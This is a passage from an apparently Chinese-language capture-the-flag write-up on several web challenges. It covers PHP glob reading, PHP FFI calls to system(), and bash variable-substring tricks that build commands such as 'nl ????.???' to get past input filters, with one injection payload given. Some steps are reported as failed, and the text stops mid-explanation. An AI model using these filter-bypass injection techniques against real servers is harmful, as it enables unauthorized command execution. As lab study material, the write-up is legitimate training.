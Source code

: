 使用glob协议可以得到flag所在的根目录，但是下一步我尝试了执行sql语句读取flag但是却失败了，不知道怎么办。

## Web77：

![image.png](https://img06.mifile.cn/v1/MI_542ED8B1722DC/1714fa9ee1d0ba22fbd1a096867a070f.png)

解题思路：根据提示使用PHP7.4以上才有的FFI进行命令执行，FFI（Foreign Function Interface），即外部函数接口，是指在一种语言里调用另一种语言代码的技术。PHP的FFI扩展就是一个让你在PHP里调用C代码的技术。通过FFI，可以实现调用system函数，从而将flag直接写入一个新建的文本文件中，然后访问这个文本文件，获得flag。但是最后读取/1.txt却失败了，不知道怎么回事。

## Web118：

先了解一下bash内置变量

- root@baba:~# echo ${PWD}

- /root

- root@baba:~# echo ${PWD:1:1} //表示从第2（1+1）个字符开始的一个字符r



- root@baba:~# echo ${PWD:0:1} //表示从第1（0+1）个字符开始的一个字符/



- root@baba:~# echo ${PWD:~0:1} //表示从最后一个字符开始的一个字符t



- root@baba:~# echo ${PWD:~A} //字母代表0   t


所以可以利用各个环境变量的最后一位来构造命令。 ${PWD}在这题肯定是/var/www/html，而${PATH}通常是bin,那么${PWD:~A}的结果就应该是' l '，因为${PATH:~A}的结果是' n '，那么他们拼接在一起正好是nl，能够读取flag，因为通配符没有被过滤，所以可以用通配符代替flag.php。

Payload：code=${PATH:~A}${PWD:~A} ????.???

![image.png](https://img07.mifile.cn/v1/MI_542ED8B1722DC/756a51ae7017c6f123a3680889a508b1.png)

![image.png](https://img07.mifile.cn/v1/MI_542ED8B1722DC/de100164be36ee999ef694bc33258072.png)

## Web119：

解题思路：该题比上一题多禁用了path，我们需要构造/bin/cat falg.Php

- ${SHLVL} //一般是一个个位数

- ${#SHLVL} //1，表示结果的字符长度

- ${PWD:${#}:${#SHLVL}} //表示/

- ${USER} //www-data

- ${PHP\_VERSION:~A} //2

- ${USER:~${PHP\_VERSION:~A}:${PHP\_VERSION:~A}} //at

由以上的可以构造出：
